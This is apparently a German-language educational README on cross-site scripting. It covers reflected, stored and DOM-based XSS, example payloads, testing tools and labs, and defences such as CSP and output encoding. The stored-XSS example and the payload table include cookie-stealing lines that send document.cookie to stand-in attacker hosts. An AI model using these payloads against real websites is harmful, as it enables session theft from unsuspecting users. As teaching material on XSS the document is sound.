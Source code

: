 # ⚠️ Cross-Site Scripting (XSS) – Überblick, Typen, Schutz



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Grundlagen & Ziel](#grundlagen--ziel)
- [Typen von XSS](#typen-von-xss)
- [Nützliche XSS Payloads](#nützliche-xss-payloads)
- [Praxis – Testen mit XSS](#praxis---testen-mit-xss)
- [Schutzmaßnahmen gegen XSS](#schutzmaßnahmen-gegen-xss)
- [Bonus: XSS in modernen Frameworks](#bonus-xss-in-modernen-frameworks)
- [Nützliche Links](#nützliche-links)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung

**Cross-Site Scripting (XSS)** ist eine Web-Sicherheitslücke, bei der Angreifer **schädlichen JavaScript-Code** in Webseiten einschleusen, der im Browser anderer Benutzer ausgeführt wird.

💡 XSS zählt laut [OWASP Top 10](https://owasp.org/www-project-top-ten/) seit Jahren zu den **häufigsten Sicherheitslücken** in Webanwendungen.



## Grundlagen & Ziel

**Ziel von XSS**:  
➡️ Ausführen von JavaScript im Kontext des Opfers, z. B. um:
- Cookies zu stehlen (`document.cookie`)
- Session-Tokens zu exfiltrieren
- Inhalte zu verändern (defacement)
- Phishing-Popups anzuzeigen
- Keylogging durchzuführen
- Zugriff auf Browser-APIs (z. B. `localStorage`) zu erlangen



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typen von XSS

### 1. **Reflected XSS** (nicht persistent)

- Eingabe wird sofort über Antwort reflektiert (z. B. über URL-Parameter)
- Kein Speichern auf dem Server
- Typisch: Formulare, URLs, Suchfelder

**Beispiel:**
```html
URL: http://example.com/search?q=<script>alert('XSS')</script>
```

### 2. Stored XSS (persistent)

- Bösartiger Code wird dauerhaft gespeichert (z. B. in Kommentaren, Foren, Profilfeldern)
- Wird jedes Mal bei Anzeige ausgeführt

Beispiel:
```html
<!-- Ein Benutzer speichert im Kommentar: -->
<script>fetch('http://evil.com?cookie=' + document.cookie)</script>
```

### 3. DOM-based XSS

- Manipuliert das DOM rein im Browser, ohne dass der Server beteiligt ist
- XSS entsteht durch unsichere JavaScript-Verarbeitung im Frontend

Beispiel:
```javascript
// gefährlich:
document.body.innerHTML = location.hash;
// Beispiel-URL: http://site.com/#<img src=x onerror=alert(1)>
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Nützliche XSS Payloads

| Zweck                   | Beispiel-Payload                                                   |
| ----------------------- | ------------------------------------------------------------------ |
| Einfacher Test          | `<script>alert(1)</script>`                                        |
| HTML-Injection          | `<img src=x onerror=alert(1)>`                                     |
| Cookie stehlen          | `<script>fetch('http://attacker.com?c='+document.cookie)</script>` |
| DOM XSS                 | `#<img src=x onerror=alert(1)>`                                    |
| JavaScript-only (Event) | `<body onload=alert(1)>`                                           |

🔐 Tipp: Nutze Tools wie [XSS Cheat Sheet (PortSwigger)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)



## Praxis - Testen mit XSS

### 🔬 Tools

| Tool                   | Beschreibung                               |
| ---------------------- | ------------------------------------------ |
| Burp Suite             | Proxy zum Einfügen & Abfangen von Payloads |
| OWASP ZAP              | Automatisierte Scans + manuelles Testen    |
| XSS Hunter             | Entdeckung & Überwachung von Blind XSS     |
| XSStrike               | Fuzzer mit intelligenter Erkennung         |
| Google Chrome DevTools | Testumgebung im Browser                    |

### 🧪 Testbare Labs

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/cross-site-scripting)
- [HackTheBox Academy: XSS Fundamentals](https://academy.hackthebox.com/)
- [TryHackMe: XSS Room](https://tryhackme.com/room/xss)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Schutzmaßnahmen gegen XSS

### ✅ Server-seitiger Schutz

| Maßnahme                      | Beschreibung                                      |
| ----------------------------- | ------------------------------------------------- |
| Input Validierung             | Unerwartete Zeichen blockieren oder escapen       |
| Output-Encoding               | Spezielle Zeichen vor HTML-Ausgabe entschärfen    |
| Content Security Policy (CSP) | Einschränkung erlaubter Skriptquellen             |
| HTTPOnly-Flag bei Cookies     | Schutz vor JavaScript-Zugriff auf Session         |
| Frameworks nutzen             | Z. B. React, Vue: automatische Kontext-Isolierung |


### ✅ Client-seitiger Schutz

CSP Header z. B.:
```http
Content-Security-Policy: default-src 'self'; script-src 'self'
```

X-XSS-Protection Header (veraltet, aber teilweise wirksam):
```http
X-XSS-Protection: 1; mode=block
```



## Bonus: XSS in modernen Frameworks

- React, Angular, Vue nutzen intern DOM-Sanitizer
- Problematisch bleiben:
    - `dangerouslySetInnerHTML` (React)
    - `v-html` (Vue)
    - `innerHTML`, `document.write()`, `eval()` (JS allgemein)




## Nützliche Links

- [OWASP XSS Overview](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger XSS Academy](https://portswigger.net/web-security/cross-site-scripting)
- [XSS Cheat Sheet (OWASP)](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [PayloadsAllTheThings: XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---